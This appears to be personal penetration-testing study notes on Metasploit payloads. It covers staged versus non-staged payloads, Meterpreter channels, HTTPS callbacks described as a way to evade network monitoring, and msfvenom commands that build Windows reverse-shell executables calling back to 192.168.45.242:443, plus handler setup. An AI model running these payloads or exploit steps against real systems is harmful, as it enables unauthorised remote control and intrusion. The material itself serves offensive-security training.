 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Payloads

## **Staged vs Non-Staged**

* **Non-Staged Payload**: Sends the full exploit and shellcode together; more stable but larger in size. E.g. `payload/linux/x64/shell_reverse_tcp`.
* **Staged Payload**: A two-step process. A small stager is first delivered, which then connects to the attacker's machine to fetch the rest of the payload. They have a `/` in the payload name, e.g. `shell/reverse_tcp`.

> _**Staged payloads** are useful when **space is limited** or for **evading detection** but creates extra network traffic. First, a small initial program (the **stager**) runs on the target machine. Its job is to reach back to your attacker machine and download the malicious part of the payload (the **stage**) over the network which is then retrieved and **injected directly into the victim machine's memory**._

## **Meterpreter**

Meterpreter is a powerful, flexible payload that runs entirely in memory, leaving fewer traces and offering encrypted communication, file transfers, and system management tools. It enables advanced post-exploitation actions.

```bash
# Set Meterpreter payload
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 13
payload => linux/x64/meterpreter_reverse_tcp

# Run exploit
msf6 exploit(multi/http/apache_normalize_path_rce) > run

# Example Meterpreter commands
meterpreter > sysinfo
meterpreter > getuid
```

Commands with the `l` prefix operate locally, i.e., on our attacker machine.

```bash
meterpreter > help

...
Stdapi: File system Commands
============================

    Command                   Description
    -------                   -----------
...
    lls                       List local files
    ls                        List files
...
```

### Channels

Meterpreter allows the creation of multiple command shells (**channels**).

```bash
# create a new channel
meterpreter > shell
Process 135 created.
Channel 1 created.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
^Z
Background channel 1? [y/N]  y

# create a second channel
meterpreter > shell
Process 137 created.
Channel 2 created.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
^Z
Background channel 2? [y/N]  y

# list all active channels
meterpreter > channel -l

    Id  Class  Type
    --  -----  ----
    1   3      stdapi_process
    2   3      stdapi_process
```

### **HTTPS**

HTTPS Meterpreter payloads use encrypted web traffic for communication. When the infected target connects back to the attacker's machine, it does so over HTTPS, **making the traffic look like regular web activity**. Security tools monitoring the network only see harmless-looking encrypted requests, not the actual malicious instructions inside. If a defender inspects the callback URL directly in a browser, they’ll just see a generic `404` error, not the payload or its commands. However, Meterpreter is well-known and can be detected by antivirus systems. A common strategy is to use a simple shell to gain initial access, then deploy Meterpreter after evading detection.

```bash
# Example HTTPS Meterpreter payload
payload/linux/x64/meterpreter_reverse_https
```

## **msfvenom**

msfvenom is used to generate payloads in various formats. These payloads initiate a reverse connection to the attacker's machine, allowing remote control.

{% code overflow="wrap" %}
```bash
# List available payloads for Windows x64
$ msfvenom -l payloads --platform windows --arch x64

# Generate non-staged payload (Windows)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.242 LPORT=443 -f exe -o nonstaged.exe

# Generate staged payload (Windows)
$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.242 LPORT=443 -f exe -o staged.exe
```
{% endcode %}

Staged payloads need a **Metasploit handler** (`multi/handler`) since tools like `nc` cannot handle them.

> _`nc` will be to catch them, but we won't be able to send any commands through them._

```bash
# Start multi/handler for staged payloads
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST 192.168.45.242
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run
```
